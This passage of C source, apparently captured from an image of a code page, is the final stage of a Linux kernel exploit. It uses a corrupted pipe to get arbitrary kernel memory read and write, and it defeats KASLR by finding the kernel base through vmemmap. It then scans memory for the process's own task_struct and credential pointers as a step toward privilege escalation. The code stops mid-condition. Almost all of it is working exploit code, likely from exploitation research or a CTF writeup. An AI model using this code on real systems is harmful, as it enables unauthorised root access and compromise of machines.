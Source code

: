 ```c
/**
 * VII - FINAL exploit stage with arbitrary read & write
*/

size_t *tsk_buf, current_task_page, current_task, parent_task, buf[0x1000];


void info_leaking_by_arbitrary_pipe()
{
    size_t *comm_addr;

    memset(buf, 0, sizeof(buf));

    puts("[*] Setting up kernel arbitrary read & write...");
    setup_evil_pipe();

    /**
     * KASLR's granularity is 256MB, and pages of size 0x1000000 is 1GB MEM,
     * so we can simply get the vmemmap_base like this in a SMALL-MEM env.
     * For MEM > 1GB, we can just find the secondary_startup_64 func ptr,
     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.
     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.
     */
    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;
    for (;;) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);

        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x070)) {
            kernel_base = buf[0] -  0x070;
            kernel_offset = kernel_base - 0xffffffff81000000;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n", 
                   kernel_base, kernel_offset);
            break;
        }

        vmemmap_base -= 0x10000000;
    }
    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);

    /* now seeking for the task_struct in kernel memory */
    puts("[*] Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    /**
     * For a machine with MEM less than 256M, we can simply get the:
     *      page_offset_base = heap_leak & 0xfffffffff0000000;
     * But that's not always accurate, espacially on a machine with MEM > 256M.
     * So we need to find another way to calculate the page_offset_base.
     * 
     * Luckily the task_struct::ptraced points to itself, so we can get the
     * page_offset_base by vmmemap and current task_struct as we know the page.
     * 
     * Note that the offset of different filed should be referred to your env.
     */
    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40), buf);
    
        comm_addr = memmem(buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000) /* task->real_cred */
            && (comm_addr[-57] > 0xffff888000000000) /* task->read_parent */
```